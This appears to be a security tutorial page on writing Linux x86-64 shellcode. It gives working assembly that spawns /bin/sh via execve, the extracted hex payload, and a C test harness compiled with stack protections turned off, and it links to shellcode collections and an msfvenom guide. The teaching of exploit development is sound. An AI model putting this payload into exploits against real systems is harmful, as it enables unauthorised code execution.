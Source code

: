 ```yaml
---
description: 10/17/2023
cover: >-
  https://4.bp.blogspot.com/-Vfh5oUmLq1s/VcjcrtDh-HI/AAAAAAAAArc/2eAVjFldSsw/s1600/adduser-metasploit.PNG
coverY: 0
---
```


# 🐚 Shellcode

## Introduction

<mark style="color:yellow;">Shellcode is a set of instructions that are injected by the user and executed by the binary</mark>.

It is usually within the "payload" of our exploit code.

Essentially, shellcode can allow us, attackers, to implement and execute code that never existed in the original binary.

#### How can I make shellcode?

* C
* Python
* x86 Assembly
* Hex strings

### How does it work?

Upon analyzing shellcode, you will come to notice that shellcodes utilize system calls, or syscalls.

#### What are syscalls?

<mark style="color:yellow;">These provide a way of requesting services from the kernel</mark>.

It allows a program to be able to interact with the underlying operating system the binary is existent on.

They are a way of communicating directly with the kernel and are the only entry point to the OS's kernel.

#### What can they do?

Syscalls exist in two primary forms, <mark style="color:yellow;">process control</mark> and <mark style="color:yellow;">file management</mark>.

We can end, terminate, create, allocate, and free memory with process control syscalls.

We can create, open, close, delete, and read files with file management syscalls.

## Shellcode Development

By following this methodology, we can create our own shellcode!

<mark style="color:yellow;">Create shellcode in Assembly, hexdump</mark> (<mark style="color:yellow;">`objdump`</mark><mark style="color:yellow;">/carve out with</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`grep`</mark><mark style="color:yellow;">/</mark><mark style="color:yellow;">`sed`</mark>), <mark style="color:yellow;">and convert our shellcode into a hex string. So, opcodes -> hexstring</mark>.

### Development

`shell.s`:

```nasm
SECTION .text
    global _start
_start:
    mul esi
    push rax
    mov rdi, "/bin/sh"
    push rdi
    mov rdi, rsp
    mov al, 59
    syscall
```

#### Note:&#x20;

What is the `59` you might ask? <mark style="color:yellow;">That is the syscall number for</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`execve()`</mark> that will execute `/bin/sh`.

Assemble and link:

```
nasm shell.s -f elf64 && ld shell.o -o shell
```

<mark style="color:yellow;">We can now execute this file and it will grant us a shell</mark>!

### Carving out Shellcode From our ASM Binary

{% code overflow="wrap" fullWidth="false" %}
```
objdump -d ./shell|grep -e '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x73\x68\x00\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
```
{% endcode %}

We now have a hex string that we can pass into a `char` buffer in C and call in a C program.

`poc.c`:

```c
#include <stdio.h>
#include <unistd.h>

unsigned char shellcode[] =
"\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x73\x68\x00\x57\x48\x89\xe7\xb0\x3b\x0f\x05";

int main()
{
    int (*ret)() = (int(*)())shellcode;
    ret();
}

```

#### Compile:

```
gcc poc.c -o poc -z execstack -fno-stack-protector -no-pie
```

#### Side Note:

Also, you can append `__attribute__((section(".text")))` to the hexstring and it will "force" the hexstring into the `.text` section of the ELF binary.

## Shell-Storm

{% embed url="https://shell-storm.org/shellcode/files/shellcode-603.html" %}

{% embed url="http://shell-storm.org/shellcode/files/shellcode-806.html" %}

## msfvenom

{% content-ref url="../malware-development/code-and-process-injection/generating-shellcode-w-msfvenom.md" %}
[generating-shellcode-w-msfvenom.md](../malware-development/code-and-process-injection/generating-shellcode-w-msfvenom.md)
{% endcontent-ref %}
